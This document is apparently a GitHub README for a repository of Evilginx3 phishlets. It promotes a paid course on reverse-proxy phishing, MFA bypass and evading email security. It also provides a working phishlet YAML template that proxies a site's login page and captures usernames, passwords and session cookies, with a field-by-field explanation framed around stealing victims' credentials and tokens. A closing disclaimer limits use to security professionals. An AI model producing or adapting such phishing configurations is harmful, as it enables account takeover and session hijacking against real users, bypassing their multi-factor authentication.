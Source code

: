 
# Updated Evilginx3 Phishlets
I've dedicated substantial time and effort to create and update new phishlets for Evilginx3. 
In this repository, you'll find many custom Evilginx phishlets, finely crafted and updated to suit real-world applications.

# Learn More: interested in mastering MITM Phishing with Evilginx?

## Enroll in our Evilginx 3.0 Professional Masterclass!

Our comprehensive course focuses on deploying Evilginx for dynamic phishing scenarios, students will master the nuances reverse-proxy phishing, email protocols (SPF, DMARC, DKIM), content obfuscation, and executing attacks that effectively evade security measures, ensuring a comprehensive grasp of modern attacks along with a vast archive of custom tools & templates to aid your campaigns.

### Grab the course here: www.simplerhacking.com/courses/evilginx-course

[![Evilginx Pro Masterclass](https://img.shields.io/badge/Evilginx-Professional%20Masterclass-darkred?style=for-the-badge&logo=github)](https://www.simplerhacking.com/courses/evilginx-course)



![Evilginx Pro](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/e8845e9f-d993-4c05-adac-d213073aba4c)

![preview](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/500f76e8-d1aa-4a79-9bbf-5fbec64003df)

![evilginx course bonus collection](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/54e990c9-77d8-4ae1-922d-043bc10957f9)


## Use Code: GITHUB20 for a 20% off of the course!
### About the course: 
Become an Evilginx professional & learn how to bypass modern MFA with the latest version Evilginx3, send verified campaigns, capture credentials, record & analyze campaign results. Get access to Phishlets not available on our public Github as well as tons of resources, templates & generators to aid your engagements.

### Course Previews:



![Evilginx Pro Course Preview](https://github.com/simplerhacking/Phishlet-Creator/assets/141525149/66bbf548-b340-4c91-8694-1f77209a5edb)

https://github.com/simplerhacking/Evilginx3-Tutorial/assets/141525149/fa7dcbf0-13cb-4cfc-b7a8-f944d824b0c2

![evilginx3 new course 3](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/389cadcc-4fa3-4859-89e8-0ce95af23f65)

![GAP94xaWkAA_iTl](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/231ed9c9-6170-4c21-9d4c-fb58ffeda325)



## Attend the Free Evilginx Modern Phishing Webinar: www.simplerhacking.com/courses/evilginx-webinar

Learn how attackers use Evilginx & other tools to bypass MFA & gain access to information. Learn how Modern Business Email Compromise (BEC), and Evilginx Man-in-the-Middle (MITM) attacks are done from an attacker's perspective.
  
## Need Custom Phishlets? 
Check our constantly updating our free Evilginx3 Phishlet Repository for Red Teams

You can find it here: https://github.com/simplerhacking/Evilginx3-Phishlets

## Questions?
## Send us an email to: info@simplerhacking.com 

## Simpler Hacking Evilginx Phishlet Template (Use this template to make your own!)

```yaml
name: 'Your First Phishlet'
author: 'Simpler Hacking'
min_ver: '3.2.0'

proxy_hosts:
  - { phish_sub: 'www', orig_sub: 'www', domain: '{domain}', session: true, is_landing: true }

sub_filters: 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['text/html', 'application/javascript', 'text/css', 'application/json', 'image/x-icon', 'text/plain', 'application/xml', 'image/*', 'font/*']} 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['application/x-www-form-urlencoded']}

auth_tokens:
  - domain: '{domain}'
    keys: ['session']

creds:
  - key: 'username'
    search: ['(.*)']
    type: 'post'
  - key: 'password'
    search: ['(.*)']
    type: 'post'

auth_urls:
  - url_regex: 'https://{hostname}/login'
    valid_statuses: [200]

login:
  username: user
  password: pass
  url: https://www.{domain}/login

# This is just a demo example of a phishlet for 3.2.0

# You can find phishlets here: https://github.com/simplerhacking/Evilginx3-Phishlets

```
**Explanation of Phishlet Parameters:**

- `name:` Identifies the name of the phishlet.
- `author:` Specifies the phishlet author.
- `min_ver:` Specifies the minimum Evilginx version that is compatible with your phishlet.
- `proxy_hosts:` Indicates the domain and subdomains to proxy. The `phish_sub` is the subdomain that the phishing page will imitate.
- `sub_filters:` Allows the phishlet to replace instances of the actual domain name with the phishing domain, which is critical for the phishing page to function correctly.
- `auth_tokens:` Identifies the cookies that should be captured from the victim's browser to gain access to the victim's session.
- `creds:` This field determines the credentials that the phishlet is engineered to steal. The `key` is the name of the credential (like username or password) and `search` is a regular expression that the program will use to identify and extract these details from the user's input.
- `auth_urls:` Defines the URLs that Evilginx will treat as the authenticated URLs. After the victim logs in, Evilginx will look out for a redirect to one of these URLs, at which point it will steal the listed `auth_tokens`.
- `login:` Here you specify the identifiers of the username and password fields in the login form on the original webpage. The `url` is the link of the page where the victim enters their credentials.
- `force_post:` If set to true, it forces the alteration of HTTP method from GET to POST.
- `is_landing:` If set to true, it means that the page is a landing page for the phishing attack.
- `js_inject:` This is where you can write some JavaScript to be injected in the webpage. It's typically used to enhance the phishing attack and ensure a smoother victim experience.
- `domain:` This is a template variable used to replace target hostname used in phishlet configuration.

## Disclaimer
The tools here are intended solely for legal and ethical use by cybersecurity professionals in controlled environments. 
Any illegal or malicious use is strictly prohibited.
I disclaim all responsibility for any harm, loss, or damage that may arise from improper use.

<img src="https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/bde083c3-551d-4c05-961d-8e493731a273" width="750" height="450">
